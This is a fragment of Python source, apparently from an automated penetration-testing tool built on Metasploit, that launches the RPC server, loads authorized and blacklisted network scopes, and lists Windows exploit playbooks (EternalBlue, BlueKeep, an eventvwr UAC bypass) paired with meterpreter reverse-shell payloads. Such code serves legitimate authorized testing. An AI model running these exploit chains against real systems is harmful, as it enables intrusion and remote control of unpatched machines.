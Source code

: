 ```
            '-P', msf_config['rpc_pass'],
            '-p', str(msf_config['rpc_port']),
            '-a', msf_config['rpc_host'],
            '-f'  # Fork to background
        ]

        try:
            subprocess.Popen(cmd, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
            time.sleep(5)  # Wait for server to start
        except Exception as e:
            self.logger.error(f"Failed to start MSF RPC server: {e}")
            raise

    def load_authorized_targets(self):
        """Load and validate authorized target scope"""
        self.authorized_targets = []
        self.blacklisted_targets = []

        # Load from configuration
        authorized_networks = self.config['authorization']['authorized_networks']
        blacklisted_networks = self.config['authorization']['blacklisted_networks']

        # Validate network ranges
        for network in authorized_networks:
            try:
                import ipaddress
                network_obj = ipaddress.ip_network(network, strict=False)
                self.authorized_targets.append(network_obj)
            except ValueError as e:
                self.logger.warning(f"Invalid authorized network: {network} - {e}")

        for network in blacklisted_networks:
            try:
                import ipaddress
                network_obj = ipaddress.ip_network(network, strict=False)
                self.blacklisted_targets.append(network_obj)
            except ValueError as e:
                self.logger.warning(f"Invalid blacklisted network: {network} - {e}")

    def load_exploitation_templates(self):
        """Load exploitation templates and playbooks"""
        self.exploitation_templates = {
            'windows': {
                'initial_access': [
                    {
                        'name': 'SMB Exploitation',
                        'exploits': ['exploit/windows/smb/ms17_010_eternalblue'],
                        'payloads': ['windows/x64/meterpreter/reverse_tcp'],
                        'requirements': ['SMB service', 'Unpatched MS17-010']
                    },
                    {
                        'name': 'RDP Exploitation',
                        'exploits': ['exploit/windows/rdp/cve_2019_0708_bluekeep_rce'],
                        'payloads': ['windows/x64/meterpreter/reverse_tcp'],
                        'requirements': ['RDP service', 'Vulnerable to BlueKeep']
                    }
                ],
                'privilege_escalation': [
                    {
                        'name': 'UAC Bypass',
                        'exploits': ['exploit/windows/local/bypassuac_eventvwr'],
                        'payloads': ['windows/x64/meterpreter/reverse_tcp'],
                        'requirements': ['Medium integrity token']
```